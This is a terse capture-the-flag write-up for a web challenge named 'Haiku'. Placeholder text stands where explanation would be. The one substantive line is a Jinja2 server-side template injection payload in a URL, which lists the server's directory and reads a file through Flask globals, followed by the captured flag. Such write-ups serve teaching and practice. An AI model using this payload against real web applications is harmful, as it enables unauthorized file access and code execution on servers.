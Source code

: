 # **Haiku**
description ....
## **About the challenge**
description
## **Solution**
bla bla bla

```
http://103.167.136.89:10001/{{get_flashed_messages.__globals__.send_file(lipsum.__globals__.os.listdir().pop(1)).response.file.read()}
```
And we got flag
```
ForestyHC{roses_are_red_violets_are_blue_b34b48}
```
